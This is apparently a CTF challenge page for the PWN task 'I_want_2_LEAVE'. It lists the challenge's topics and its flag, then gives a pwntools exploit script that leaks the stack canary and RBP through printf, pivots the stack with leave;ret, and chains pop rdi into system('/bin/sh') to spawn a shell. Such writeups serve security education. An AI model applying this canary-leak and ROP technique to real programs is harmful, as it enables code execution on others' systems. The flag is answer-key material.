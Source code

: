 - **题目名称：** I_want_2_LEAVE
- **题目类型：** PWN
- **题目难度**：**简单**
- **出题人：** i-Corner
- **考点：**

1. printf函数的输出终止情况
2. leave_ret 栈迁移

- **描述：** 呜呜呜呜CTF好难，想跑路了
- **flag：** XSCTF{CS2's_strafing_is_a_piece_of_s***}
- **Writeup：**

```python
from pwn import *
context(log_level='debug')
p = process('./b')
leave_ret = 0x401351
pop_rdi_ret = 0x4014d3

elf = ELF('./b')
p.recvuntil("what do you want to say?\n")

p.send(b'a'*0x40+p32(0xFFFFFFF1)+b'a'*0x3+b'b')
p.recvuntil('b')
can = p.recv(8)
rbp = u64(p.recv(6)+b'\x00'*2)

log.success("Canary:%s"%can)
log.success("RBP:0x%x"%rbp)

p.recvuntil("what do you want to say?\n")

system = 0x4012CC

pl = b'a'*0x8 +p64(pop_rdi_ret)+p64(rbp-0x70+4*0x8)+p64(system)+b'/bin/sh\x00'
pl = pl.ljust(0x48,b'a')
pl +=can+p64(rbp-0x70)+p64(leave_ret)
p.send(pl)


p.interactive()

```
